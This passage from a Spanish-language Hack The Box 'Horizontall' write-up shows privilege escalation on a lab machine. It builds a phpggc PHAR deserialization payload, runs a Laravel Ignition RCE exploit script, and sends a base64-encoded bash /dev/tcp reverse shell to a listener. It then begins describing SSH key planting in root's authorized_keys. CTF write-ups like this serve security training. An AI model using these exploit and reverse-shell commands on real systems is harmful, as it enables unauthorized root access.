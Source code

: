 Generemos el payload para intentar ejecutar el comando `id`:

```bash
❱ php -d'phar.readonly=0' ./phpgcc/phpggc --phar phar -o aca_ta_la_locura.phar --fast-destruct monolog/rce1 system id
```

Guardamos el payload en el archivo `aca_ta_la_locura.phar`, el resultado es este:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/horizontall/374bash_cat_payload_PHAR.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Y ahora simplemente debemos ejecutar el exploit pasándole la URL donde esta `Laravel` e `Ignition`, junto al `payload`:

```bash
❱ python3 laravel-exploits/laravel-ignition-rce.py http://localhost:8001 aca_ta_la_locura.phar
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/horizontall/374bash_laravelPY_RCE_id_DONE.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

OPAAAAAAAAAAAAAAAAAAAA, vemos que los archivos del servicio los guarda el usuario `developer`, peeeeeeeeeero el que esta ejecutando el proceso es el usuario `root` 😵

Pues ya estamos, tenemos **RCE** como el usuario **administrator** del sistema, generemos una reverse shell (:

```bash
❱ nc -lvp 4450
listening on [any] 4450 ...
```

```bash
❱ echo "bash -i >& /dev/tcp/10.10.14.78/4450 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OC80NDUwIDA+JjEK
```

```bash
❱ php -d'phar.readonly=0' ./phpgcc/phpggc --phar phar -o aca_ta_la_locura.phar --fast-destruct monolog/rce1 system 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OC80NDUwIDA+JjEK | base64 -d | bash'
```

```bash
❱ python3 laravel-exploits/laravel-ignition-rce.py http://localhost:8001 aca_ta_la_locura.phar 
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/horizontall/374bash_rootRevSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

La obtenemos, pero el problema es que la perdemos muy rápido, la conexión que abre el exploit se queda pegada y hace que el fortwarding se interrumpa por lo que lo cierra y perdemos toooooodo :(

Pero no es problema, otra manera de obtener una **Shell** puede ser con ayuda de las llaves `SSH`, existe un archivo en la ruta `/home/<user>/.ssh` llamado `authorized_keys` (si no existe, se crea), este objeto contiene todas las llaves <u>públicas</u> de los usuarios que pueden conectarse como <user> sin proveer contraseña.

Entonces si el usuario `root` en su archivo `authorized_keys` tiene nuestra llave publica, al intentar autenticarnos como `root`, el sistema interpretara que tenemos "permiso" para ingresar como él. Por lo tanto, obtendremos una sesión (: Intentémoslo:
